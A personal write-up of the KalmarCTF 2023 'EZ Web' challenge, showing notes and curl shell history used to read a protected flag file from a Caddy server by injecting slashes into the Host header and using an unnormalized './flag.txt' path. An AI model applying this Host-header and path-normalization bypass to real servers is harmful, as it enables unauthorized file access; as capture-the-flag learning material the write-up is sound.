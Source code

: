 ```yaml
---
title: "KalmarCTF 2023 - EZ Web - Writeup"
date: "2023-03-05"
---
```


I participated in KalmarCTF as part of team Kassipojad :cat2:. One of the best
CTFs I've ever played!!

Here's a writeup of the EZ Web task, or rather a dump of the notes I took:

## What do we know?

* URL https://www.caddy.chal-kalmarc.tf/flag.txt returns 403
* https://php.caddy.chal-kalmarc.tf/flag.txt
* https://php.caddy.chal-kalmarc.tf/index.php
* https://static.caddy.chal-kalmarc.tf/logo_round.svg

* Source is included 
* compose file includes some backup step
* Backups folder includes the host
  * `cp -r *.caddy.chal-kalmarc.tf backups/ && rm php.caddy.chal-kalmarc.tf/flag.txt && sleep 1 && caddy run`

* Can use slashes in host
* Caddy v1 has an admin API on a separate port
* Caddy matchers (`respond /flag.txt`) don't run `path.Clean()`
* Caddy staticfile server (`root /srv/$host/`) performs `path.Clean()`

## What to do:

* Make caddy read a file from `/srv/backups/php.caddy.chal-kalmarc.tf/flag.txt`
* Root `/srv/{host}` looks promising...
  * Does it trust the Host header?
    * Yes it does
  * Does it accept slashes?
    * Yes it does

## Started trying...

```
 4972  curl -H 'Host: php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/index.php
 4973  curl -k -v -H 'Host: php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/index.php
 4974  curl -k -v -H 'Host: ../flag.txt.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/
 4975  curl -k -v -H 'Host: index.html.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/
 4976  curl -k -v -H 'Host: wow.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/
 4977  curl -k -v -H 'Host: stderr.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf/
 4978  curl -k -v -H 'Host: wow' https://php.caddy.chal-kalmarc.tf/
 4979  curl -k -v -H 'Host: flag.txt' https://php.caddy.chal-kalmarc.tf/
 4980  curl -k -v  https://backups.php.caddy.chal-kalmarc.tf/flag.txt
 4981  curl -k -v  http://backups.php.caddy.chal-kalmarc.tf/flag.txt
 4982  curl -k -v  http://backups.php.caddy.chal-kalmarc.tf:443/flag.txt
 4983  curl -k -v  http://backups.php.caddy.chal-kalmarc.tf:443/index.php
 4984  curl -k -v  https://backups.php.caddy.chal-kalmarc.tf:443/index.php
 4985  curl -v  https://php.caddy.chal-kalmarc.tf:443/index.php
 4986  curl -vk  https://php.caddy.chal-kalmarc.tf:443/index.php
```

This is not working.

## So let's keep trying the backup idea:

```
 4987  curl -vk -H 'Host: backups.php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/index.php
 4988  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/index.php
 4989  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/flag.txt
 4990  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/index.php
 4991  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/./index.php
 4992  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/'./index.php'
 4993  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/../index.php
 4994  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf/flag.txt' https://php.caddy.chal-kalmarc.tf:443/
 4995  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf/flag.txt' https://php.caddy.chal-kalmarc.tf:443/index.php
 4996  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/f\*
 4997  curl -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/flag.txt
```

## Heureka

Wait, curl, don't normalize the path!

After a lot of trying:

```
❯ curl --path-as-is -vk -H 'Host: backups/php.caddy.chal-kalmarc.tf' https://php.caddy.chal-kalmarc.tf:443/./flag.txt
```

So yes, the "respond" matcher was not normalizing paths the same way the file server was.

kalmar{th1s-w4s-2x0d4ys-wh3n-C4ddy==2.4}

## Learnings

* Even caddy has unique behaviors
* Don't get stuck on the admin endpoint

